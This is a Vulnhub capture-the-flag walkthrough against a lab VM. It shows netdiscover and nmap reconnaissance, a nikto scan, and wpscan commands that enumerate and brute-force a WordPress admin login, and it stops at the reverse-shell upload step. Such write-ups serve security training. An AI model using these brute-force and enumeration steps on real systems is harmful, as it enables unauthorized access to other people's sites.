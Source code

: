 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | wordpress hacking |
|End Goal: |	Get root |
|Tool: | nmap, nikto, gobuster, wpscan  |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - Nikto scan
  - wpscan
- Exploit
  - Wordpress Exploit
  - Privilege escalation
  - Get root
## Walkthrough
### Scanning
Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
Check http servive

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/26e3bb4b-1690-4ca9-8e12-d8085bc0bbea)

Nothing here. Scan Web with nikto

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/547d2d58-5288-4b85-95ea-94ab2e84627a)

We find a interestin folder is **secret**. When check in URL, I find wordpress login page

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/bc174807-5783-45b0-b288-fa31ccc2dce2)

### Enumeration

The next step is to enumerate any potential users and vulnerabilities in the site by using wpscan:

```
wpscan --url http://192.168.44.130/secret -e u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

I find a user that is **admin**. Let's continue to bruteforce the password of this user by ussing wpscan.

```
wpscan --url http://vtcsec/secret/ -U admin -P  /usr/share/wordlists/dirb/common.txt

```
I find the password for admin that is admin

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/950cc8d0-d279-491c-81b8-f3a8ca5aff7d)

Log in with this credential

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/990c1ffb-637d-4f7c-9f92-e7a1876699fd)


### Exploit
- Upload php reverse shell into wordpress page


